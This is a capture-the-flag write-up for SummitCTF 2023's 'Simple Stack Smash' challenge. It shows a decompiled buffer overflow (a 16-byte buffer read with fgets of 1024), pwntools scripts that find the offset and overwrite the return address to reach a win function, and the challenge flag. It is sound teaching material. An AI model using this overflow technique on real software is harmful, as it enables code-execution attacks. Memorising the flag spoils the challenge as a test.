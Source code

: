 ```yaml
---
title: "Simple Stack Smash (SummitCTF 2023)"
summary: "Easy pwn Challenge - ret2win"
description: "Easy pwn Challenge - 100 points"
tags: [pwn, SummitCTF2023, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Can you perform a simple stack smash? I hope so, you'll need to in order to reach the summit...

Given file: [simple-stack-smash](/summitctf-simple-stack-smash/simple-stack-smash)

---

## Writeup

I'm going to use GDB with the [pwndbg](https://github.com/pwndbg/pwndbg) plugin for this challenge. Run `gdb <file>`

![name](/summitctf-simple-stack-smash/2023-04-23-21-44-48.png#center)

Here is the main function revealed in Ghidra:

```c
undefined4 main(void)
{
  char name_input [16];
  
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  printf("Please enter your name: ");
  fgets(name_input,1024,stdin);
  printf("Hello, %s!\n",name_input);
  return 0;
}
```
Curiously, there exists a `win` function:

```c
void win(void)
{
  system("cat /src/flag.txt");
  exit(0);
}
```

A ret2win challenge, where the objective is to redirect execution to the win function (`win_addr`). To do so, we need to figure out at what point of our input, the buffer overflow occurs (`offset`).

In gdb, `info fun win`: gives us the win_addr =` 0x08049216`

To find the offset we send a bunch of strings in the following cyclic pattern:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..` to find until what letter can the stack hold.
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf
context.log_level = "DEBUG"
gdb.attach(p)

p.sendline(cyclic(100))  # send pattern
p.interactive()  
# run script, enter 'c' in gdb to continue
```
We can see in gdb that the program SEGFAULTed when it's `%EIP` was pointing to 'gaaa' which caused the buffer overflow. If you're unfamiliar with assembly registers, `%EIP` is the instruction pointer which tells the computer what the next command is that must be executed. After making `%EIP` to point to our win function, we get the flag.

![name](/summitctf-simple-stack-smash/2023-04-23-23-04.png#center)

&nbsp;

### Solve script
Completing the script:
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf

# context.log_level = "DEBUG"
# gdb.attach(p)
# p.sendline(cyclic(100))  # sending pattern

offset = cyclic_find("gaaa")

p.sendlineafter(b"name: ", b"A" * offset + p32(win_addr))
p.interactive()
```

## Flag

`summitCTF{G1mMI3_S0M3th1NG_H4rD3r_PlZ}`

---